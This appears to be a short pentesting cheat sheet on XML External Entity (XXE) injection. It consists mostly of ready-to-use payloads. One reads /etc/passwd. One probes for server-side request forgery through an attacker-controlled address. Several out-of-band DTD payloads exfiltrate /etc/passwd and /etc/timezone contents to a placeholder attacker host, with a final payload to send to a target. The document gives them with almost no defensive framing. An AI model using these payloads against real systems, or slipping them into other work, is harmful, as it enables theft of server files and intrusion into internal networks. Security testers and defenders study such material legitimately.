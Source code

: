 - if xml needs the `<>` as text xml needs to be enclosed in  a `CDATA` section

- Testing for XXE
```XML
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

- Retrieving files
```XML
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

- Out of band Testing ssrf
```XML
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://<our ip address>/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>allenxd</firstName>
</Contact>
```

- Out of band dtd contents
```XML
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```

```XML
<!ENTITY % content SYSTEM "file:///etc/timezone">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```

send this
```XML
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://your ip address/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```
